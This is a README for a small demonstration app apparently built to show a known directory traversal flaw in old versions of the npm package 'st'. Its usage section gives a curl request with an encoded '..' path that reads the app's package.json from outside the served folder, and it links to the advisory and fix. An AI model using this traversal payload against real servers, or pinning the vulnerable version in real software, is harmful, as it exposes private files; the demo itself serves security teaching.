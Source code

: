 # vulnst
![CI](https://github.com/kg0r0/vulnst/workflows/CI/badge.svg)
Directory Traversal Demo of npm [st](https://www.npmjs.com/package/st).

## Usage

```
$ npm install
$ npm start
$ curl http://localhost:3000/public/%2e%2e/package.json
{
  "name": "stvuln",
  "version": "0.0.0",
  "private": true,
  "scripts": {
    "start": "node ./bin/www"
  },
  "dependencies": {
    "cookie-parser": "~1.4.4",
    "debug": "~2.6.9",
    "express": "~4.16.1",
    "http-errors": "~1.6.3",
    "morgan": "~1.9.1",
    "pug": "2.0.0-beta11",
    "st": "^0.2.4"
  }
}
```

## References
- https://snyk.io/vuln/npm:st:20140206
- https://github.com/isaacs/st/compare/v0.2.4...v0.2.5
